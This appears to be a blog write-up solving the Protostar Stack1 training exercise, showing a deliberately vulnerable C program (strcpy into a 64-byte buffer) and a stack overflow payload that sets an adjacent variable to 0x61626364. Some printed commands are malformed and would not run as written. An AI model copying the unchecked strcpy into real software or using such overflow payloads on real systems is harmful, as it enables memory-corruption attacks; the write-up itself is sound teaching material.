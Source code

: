 ```yaml
---
author: "faizul"
title: "Protostar Stack-01"
date: 2020-09-30T12:30:06+10:00
description: "Exploit-Exercise Protostar Stack-1"
draft: false
hideToc: false
enableToc: true
enableTocContent: false
image: images/protostar/protostar.jpeg
tags: 
- reverse-engineering
- protostar
- exploit-exercise
- buffer-overflow
categories:
- writeup
- reverse-engineering
- buffer-overflow
---
```


# Stack 1

## About

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

### Hints

- If you are unfamiliar with the hexadecimal being displayed, `man ascii` is your friend.
- Protostar is little endian


## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## First run
```bash
user@protostar:/opt/protostar/bin$ ./stack1 a
Try again, you got 0x00000000


user@protostar:/opt/protostar/bin$ ./stack1 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Try again, you got 0x00000061
```

Just like last activity, i use the same payload as the code also hold only 64 bit value of buffer and looks like i almost solve the activity. 

Lets try the python payload.

```bash
user@protostar:~$ python -c "print 'A' * 65 | xargs /opt/protostar/bin/stack1

Try again, you got 0x00000041
```

Dig in the code, we can found that `if(modified == 0x61626364)` then the program will print `you have correctly got the variable to the right value`. 

The value of 0x61626364 is actually hexadecimal value that gave us x64 which is equal to d, x63 to c, x62 to b and x61 to a.

Remember the hints given on the #About section, `Protostar is little endian`. This means the value should be in inverse where `least significant byte in the smallest address`. 

In order to satisfy the value set on code, we have to place the payload like `dcba` or `\x64\x63\x62\x61`.

```bash
user@protostar:~$ python `print("A" * 64 + "\x64\x63\x62\x61")` | xargs /opt/protostar/bin/stack1

you have correctly got the variable to the right value
```

## References

1. [Big-endian vs Little-endian](https://levelup.gitconnected.com/little-endian-vs-big-endian-eb2a2c3a9135)
